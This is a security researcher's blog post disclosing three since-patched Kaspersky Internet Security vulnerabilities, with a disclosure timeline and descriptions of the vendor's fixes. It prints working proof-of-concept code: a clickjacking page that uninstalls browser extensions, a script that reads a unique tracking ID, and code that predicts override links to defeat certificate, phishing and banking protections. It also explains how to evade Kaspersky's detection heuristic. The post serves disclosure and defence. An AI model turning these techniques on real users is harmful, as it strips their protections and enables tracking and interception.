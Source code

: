 ```yaml
---
categories:
- kaspersky
- security
- privacy
- antivirus
date: 2019-11-27 07:39:29
description: 'More vulnerabilities in Kaspersky software: websites removing Chrome
  extensions, user tracking with unique identifiers and predictable links.'
image: kaspersky-shattered.jpeg
lastmod: '2020-01-05 16:37:39'
title: Assorted Kaspersky vulnerabilities
---
```


This will hopefully be my last article on vulnerabilities in Kaspersky products for a while. With one article on [vulnerabilities introduced by interception of HTTPS connections](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/) and another on [exposing internal APIs to web pages](/2019/11/25/kaspersky-the-art-of-keeping-your-keys-under-the-door-mat/), what's left in my queue are three vulnerabilities without any relation to each other.

{{< img src="kaspersky-shattered.jpeg" width="600" alt="Kaspersky functionality shattered" />}}

*Note*: Lots of technical details ahead. If you only want a high-level summary, there is one [here](/2019/11/27/more-kaspersky-vulnerabilities-uninstalling-extensions-user-tracking-predictable-links/).

{{toc}}

## Summary of the findings

The first vulnerability affects Kaspersky Protection browser extension for Google Chrome (not its Firefox counterpart) which is installed automatically by Kaspersky Internet Security. Arbitrary websites can trick it into uninstalling Chrome browser extensions ([CVE-2019-15684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15684)). In particular, they can uninstall Kaspersky Protection itself, which will happen silently. Uninstalling other browser extensions will make Google Chrome display an additional confirmation prompt, so social engineering is required to make the user accept it. While this prompt lowers the severity of the issue considerably, the way it has been addressed by Kaspersky is also quite remarkable. The initial attempt to fix this issue took eight months, yet the issue could be reproduced again after making a trivial change.

The second vulnerability is very similar to the one [demonstrated by Heise Online earlier this year](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html). While Kaspersky addressed their report in a fairly thorough way and most values exposed to the web by their application were made unsuitable for tracking, one value was overlooked. I could demonstrate how arbitrary websites can retrieve a user identifier which is unique to the specific installation of Kaspersky Internet Security ([CVE-2019-15687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15687)). This identifier is shared across all browsers and is unaffected by protection mechanisms such as Private Browsing.

Finally, the last issue affects links used by special web pages produced by Kaspersky Internet Security, such as the invalid certificate or phishing warning pages. These links will trigger actions in the application, for example adding an exception for an invalid certificate, overriding a phishing warning or disabling Safe Money protection on a banking site. I could find a way for websites to retrieve the value of one such link and from it to predict the value assigned to future links ([CVE-2019-15688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15688)). This allows websites to trigger actions from special pages programmatically, without having to trick the user into clicking them via [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) or social engineering.

## Uninstalling any browser extension

### The issue

Kaspersky Internet Security will install its extensions in all your browsers, something that is supposed to make your browsing safer. These extensions have quite a bit functionality. One particular feature caught my eye: the ability to uninstall other browser extensions, for some reason only present in the extension for Google Chrome but not in its Firefox counterpart. Presumably, this is used to remove known malicious extensions.

{{< highlight js >}}
function handleDeletePlugin(request, sender, sendResponse) {
    chrome.management.uninstall(request.id, function () {
        if (chrome.runtime.lastError)
            trySendResponse(sendResponse, { result: -1, errorText: chrome.runtime.lastError.message });
        else
            trySendResponse(sendResponse, { result: 1 });
    });
}
{{< /highlight >}}

This code is triggered by the `ext_remover.html` page, whenever the element with the ID `dbutton` is clicked. That's usually the point where I would stop investigating this, extension pages being out of reach for websites. But this particular page is listed under [web_accessible_resources](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/web_accessible_resources) in the extension manifest. This means that any website is allowed to load this page in a frame.

Not just that, this page (like any pages in this extension meant to be displayed in an injected frame) receives its data via `window.postMessage()` rather than using extension-specific messaging mechanisms. MDN has something to say on the [security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Security_concerns) here:

> If you do expect to receive messages from other sites, always verify the sender's identity using the origin and possibly source properties. Any window (including, for example, `http://evil.example.com`) can send a message to any other window, and you have no guarantees that an unknown sender will not send malicious messages.

As you can guess, no validation of the sender's identity is performed here. So any website can tell that page which extension it is supposed to remove and what text it should display. Oh, and CSS styles are also determined by the embedding page, via `cssSrc` URL parameter. But just in case that the user won't click the button voluntarily, it's possible to use [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) and trick them into doing that.

### The exploit

Here is the complete proof-of-concept page, silently removing Kaspersky Protection extension if the user clicks anywhere on the page.

{{< highlight html >}}
<html>
  <head>
    <script>
      window.onload = function(event)
      {
        let frame = document.getElementById("frame");

        frame.contentWindow.postMessage(JSON.stringify({
          command: "init",
          data: JSON.stringify({
            id: "amkpcclbbgegoafihnpgomddadjhcadd"
          })
        }), "*");

        window.addEventListener("mousemove", event =>
        {
          frame.style.left = (event.clientX - frame.offsetWidth / 2) + "px";
          frame.style.top = (event.clientY - frame.offsetHeight / 2) + "px";
        });
      };
    </script>
  </head>
  <body style="overflow: hidden;">
    <iframe id="frame"
      style="opacity: 0.0001; width: 100px; height: 100px; position: absolute" frameborder="0"
      src="chrome-extension://amkpcclbbgegoafihnpgomddadjhcadd/background/ext_remover.html?cssSrc=data:text/css,%2523dbutton{position:fixed;left:0;top:0;width:100%2525;bottom:0}">
    </iframe>
    <p>
      Click anywhere on this page to get surprised!
    </p>
  </body>
</html>
{{< /highlight >}}

The `mousemove` event handler makes sure that the invisible frame is always placed below your mouse pointer. And the CSS styles provided in the `cssSrc` parameter ensure that the button fills out all the space within the frame. Any click will inevitably trigger the uninstall action. By replacing the `id` parameter it would be possible to remove other extensions as well, not just Kaspersky Protection itself. Luckily, Chrome won't allow extensions to do that silently but will ask for an additional confirmation.

{{< img src="removal_prompt.png" alt="Prompt displayed by the browser when Kaspersky Protection tries to remove another extension" width="348" />}}

So the attackers would need to social engineer the user into believing that this extension actually needs to be removed, e.g. because it is malicious. Normally a rather tricky task, but Kaspersky lending their name for that makes it much easier.

### Is this fixed?

In July 2019 Kaspersky notified me about this issue being resolved. They didn't ask me to verify, and so I didn't. However, when writing this blog post, I wanted to see what their fix looked like. So I got the new browser extension from Kaspersky Internet Security 2020, unpacked it and went through the source code. Yet this approach didn't get me anywhere, the logic looked exactly the same as the old one.

So I tried to see the extension in action. I opened my proof-of-concept page and was greeted with this message:

{{< img src="blocked.png" alt="Kaspersky blocking proof-of-concept page as HEUR:Exploit.Script.Generic" width="405" />}}

I figured that adding a heuristic for my proof-of-concept is a precaution, maybe a stopgap solution for older versions which didn't receive the proper fix yet. The heuristic appeared to look for the strings `contentWindow`, `postMessage` and `background/ext_remover.html` in the page source and would only fire if all of them were found. Of course, that's trivial to circumvent, e.g. by turning a slash into a backslash, so that it is `background\ext_remover.html`.

Ok, the page loads but the frame doesn't. Turns out, extension ID changed in the new version, that one is easily updated. Clicking the page... What? The extension is gone? Does it mean that this heuristic actually _is_ their fix? My brain just exploded.

When I notified Kaspersky they immediately confirmed my findings. They also promised that they would be investigating how this could have happened. While it's unlikely that anybody will ever learn the results of their investigation, I just cannot help thinking that somebody somewhere within their organization must have thought that masking the issue with a heuristic would be sufficient to make the problem go away. And their peers didn't question this conclusion.

### The real fix

A few weeks ago Kaspersky again notified me about the issue being resolved. This time the fix was obvious from the source code:

{{< highlight js >}}
if (origin !== "http://touch.kaspersky.com")
  return;
{{< /highlight >}}

The origin check here makes sure that websites normally won't be able to exploit this vulnerability. Unless somebody manages to inject JavaScript code into the `touch.kaspersky.com` domain. Which is easier than it sounds, given that we are talking about an unencrypted connection -- note `http:` rather than `https:` being expected here. According to Kaspersky, this part is fixed as well now and the patch is currently being rolled out.

## Tracking users with Kaspersky

### The issue

In August this year, Heise Online [demonstrated](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html) how Kaspersky software provides websites with unique user identifiers which can be abused for tracking -- regardless of Private Browsing mode and even across different browsers. What I noticed in my previous research: Kaspersky software generates a number of different user-specific identifiers, many within the reach of web pages. I took a look and all of these identifiers were either turned into constants (identical across all installations) or stay only valid for a single session.

That is, almost all of them. The `main.js` script that Kaspersky Internet Security injects into web pages starts like this:

{{< highlight js >}}
var KasperskyLab = {
  SIGNATURE: "427A2927-6E16-014D-99C8-EDF9A859272B",
  CSP_NONCE: "CAD1B86EE5BAB74FB865E59BE19D9AE9",
  PLUGINS_LIST: "",
  PREFIX: "http://gc.kis.v2.scr.kaspersky-labs.com/",
  INJECT_ID: "FD126C42-EBFA-4E12-B309-BB3FDD723AC1",
  WORK_IDENTIFIERS: "427A2927-6E16-014D,921A7D4E-AD84-244A,570FF4E7-B048-1D4E,979DF469-AA8E-C049"
};
{{< /highlight >}}

`SIGNATURE` and `CSP_NONCE` change every time Kaspersky Internet Security is restarted, `INJECT_ID` is the same across all installations. But what about `WORK_IDENTIFIERS`? This key contains four values. The first one is clearly a substring of `SIGNATURE`, meaning that it is largely useless for tracking purposes. But the other three turned out to be installation-specific values.

How would a website get hold of the `WORK_IDENTIFIERS` value? It cannot just download `main.js`, this is prohibited by the same-origin policy. But there is actually an easier way, thanks to how this script processes it:

{{< highlight js >}}
if (ns.WORK_IDENTIFIERS)
{
  var workIdentifiers = ns.WORK_IDENTIFIERS.split(",");
  for (var i = 0; i < workIdentifiers.length; ++i)
  {
    if (window[workIdentifiers[i]])
    {
      ns.AddRunner = function(){};
      return;
    }
    window[workIdentifiers[i]] = true;
  }
}
{{< /highlight >}}

Explanation: every value within `WORK_IDENTIFIERS` ends up as a property on the `window` object (a.k.a. global variable in JavaScript), apparently to guard against multiple executions of this script. And that's where web pages can access them as well.

### The exploit

The piece of code below looks up all properties containing `-` in their name. This is sufficient to remove all default properties, only the properties added by Kaspersky will be left.

{{< highlight js >}}
let keys = Object.keys(window).filter(k => k.includes("-")).slice(1);
if (keys.length)
  alert("Your Kaspersky ID: " + keys.join(","));
{{< /highlight >}}

For reasons of simplicity this abuses an implementation detail in Chrome's and Firefox's JavaScript engines. While theoretically the order in which properties are returned by `Object.keys()` is undefined, in this particular scenario they will be returned in the order in which they were added. This makes it easier to remove the first property which isn't suitable for purposes of user tracking.

{{< img src="tracking_id.png" alt="Tracking ID displayed by a website, based on Kaspersky's data" width="432" />}}

One more note: even if Kaspersky Internet Security is installed, its script might not be injected into web pages. That is especially the case if Kaspersky Protect browser extension is installed. But that doesn't mean that this issue isn't exploitable then. The website can just load this script by itself, its location being predictable as of Kaspersky Internet Security 2020.

### The fix

As of Kaspersky Internet Security 2020 Patch E (presumably also Kaspersky Internet Security 2019 Patch I which I didn't test) the code processing `WORK_IDENTIFIERS` is still part of the script, but the value itself is gone. So no properties are being set on the `window` object.

## Controlling Kaspersky functionality with links

### The issue

Kaspersky software breaking up all HTTPS connections in order to inspect the contents was already topic of a [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/). There I mentioned an implication: if you break up HTTPS connections, you also become responsible for implementing warnings on invalid certificates as such. Here what this warning looks like then:

{{< img src="certwarning_kaspersky.png" alt="Certificate warning page when Kaspersky is installed" width="750" />}}

I've already demonstrated how the link titled "I understand the risks" here is [susceptible to clickjacking attacks](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings), websites can make the user click it without realizing what they are clicking. However, if you look at how this link works, an even bigger issue becomes apparent.

If you (like me) expected some JavaScript code at work here, connecting to the Kaspersky application in an elaborate fashion: no, nothing like that here. In fact, it's a plain link of the form `https://93.184.216.34/?1568807468_kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_`. Here, `https://93.184.216.34/` is the website that the certificate warning applies to. It never receives this request however, the request being processed by the local Kaspersky application instead -- if the magic parameter is found valid. The part starting with `_kis_cup_` is identical for all links on this machine. The only part changing is `1568807468`. What is it? If you guessed that it is a Unix timestamp, then you are mostly correct. But it doesn't indicate the time when the link was generated, it rather appears to be related to the time when the Kaspersky application started. And it is incremented with each new link generated.

### The exploit

Altogether, this means that you only need to see one link and you will be able to guess what future links will look like. But how to get your hands on this link, with the same-origin policy in place? Right, you need to access a certificate warning page for your own site. My proof-of-concept server would serve up two different SSL certificates: first a valid one, allowing the proof-of-concept page to load, then an invalid one, making sure that the proof-of-concept page downloading itself will receive the Kaspersky certificate warning page. So if we hijacked the traffic to google.com but don't want the user to see a certificate warning page, we could do something like this:

{{< highlight js >}}
fetch(location.href).then(response =>
{
  return response.text();
}).then(text =>
{
  let match = /url-falsepositive.*?href="([^"]+)/.exec(text);
  let url = match[1];
  url = url.replace(/\?\d+/, match =>
  {
    return "?" + (parseInt(match.substr(1), 10) + 2);
  }).replace(/^[^?]+/, "https://www.google.com/");

  fetch("https://www.google.com/").catch(e =>
  {
    location.href = url;
  });
});
{{< /highlight >}}

After downloading the certificate warning page for our own website, we extract the override link. We replace the host part of that link to make it point to google.com and increase the "timestamp" by two (there are two links on each certificate warning page). After that we trigger downloading a page from google.com -- we won't get to see the response of course, but Kaspersky will generate a certificate warning page here and our override link becomes valid. Loading it then will trigger a generic warning from Kaspersky:

{{< img src="override_warning.png" alt="Warning displayed by Kaspersky when overriding a certificate" width="456" />}}

If we can social engineer the user into accepting this warning, we'll have successfully overridden the certificate for google.com and can now do our evil thing with it. The [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings) already demonstrated what this social engineering might look like.

And this isn't the only thing we can do, similar links are used in other places as well. For example, Kaspersky Internet Security has a feature called Safe Money which makes sure that banking websites are opened in a separate browser profile. So when you first open a banking site you will see a prompt like the one below.

{{< img src="safe_money.png" alt="Safe Money prompt asking the user whether to open the site in a protected browser" width="750" />}}

How these buttons work? You guessed it, they are using links exactly like the ones on certificate warning pages. And it's the same incremental counter as well. So using the same approach as above we could also disable Safe Money on banking websites, and this functionality won't even prompt for additional confirmation.

There is also phishing protection functionality in Kaspersky Internet Security. So if you happen on a phishing page, you will see a Kaspersky warning instead. The override links there look like `http://touch.kaspersky.com/kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_1568807468`. That's actually the same values as with the certificate warning page, merely rearranged. So an arbitrary website will also be able to override these phishing warning pages.

I'm going to stop here, don't want to bore you will all the features in this application relying on this kind of links.

### The fix

Kaspersky Internet Security 2019 Patch F replaced the timestamp in the links by a randomly generated GUID. This makes sure that the links aren't predictable, so the attack no longer works. It doesn't fully address the clickjacking scenario however, which is probably why Kaspersky Internet Security 2020 for a while stopped displaying certificate warning pages altogether. Instead, there was a message displayed outside the browser. Probably a good choice, but this change was reverted for some reason.

Interestingly, I've since looked at Avast/AVG products which also break up HTTPS connections. These managed to do it without replacing browser's certificate warning pages however. Their approach: don't touch connections with invalid certificates, let the browser reject them instead. Also, when replacing valid certificates by their own, keep certificate subject unchanged so that name mismatches will be flagged by the browser. Maybe Kaspersky could consider that approach as well?

## Timeline

* 2018-12-18: Sent report via Kaspersky bug bounty program: [Predictable links on certificate warning pages.](https://hackerone.com/reports/469372)
* 2018-12-21: Sent report via Kaspersky bug bounty program: [Websites can trigger uninstallation of browser extensions.](https://hackerone.com/reports/470519)
* 2018-12-24: Kaspersky acknowledges the issues and says that they are working on fixing them.
* 2019-07-29: Kaspersky notifies me about these two issues being fixed in KIS 2020.
* 2019-07-29: Requested disclosure of my reports.
* 2019-08-05: Kaspersky denies disclosure, citing that users need time to update.
* 2019-08-19: Notified Kaspersky that I plan to publish a blog post on these issues on 2019-11-25.
* 2019-08-19: Sent report via email: Exposure of unique user ID. Disclosure deadline: 2019-11-25.
* 2019-08-19: Kaspersky confirms receiving the new report.
* 2019-09-18: Sent report via email: Websites can still trigger uninstallation of browser extensions. Disclosure deadline is still 2019-11-25, given how trivial it is to modify the original proof of concept.
* 2019-09-19: Kaspersky confirms that the vulnerability still exists and acknowledges the deadline.
* 2019-11-07: Kaspersky notifies me about the remaining issues being fixed in 2019 (Patch I) as well as 2020 (Patch E) family of products.
* 2019-11-15: Evaluated the fixes and notified Kaspersky about extension uninstall being still possible to trigger via Man-in-the-Middle attack.
* 2019-11-22: Kaspersky notifies me about the remaining attack surface being removed in the patch supposed to become available by 2019-11-28.
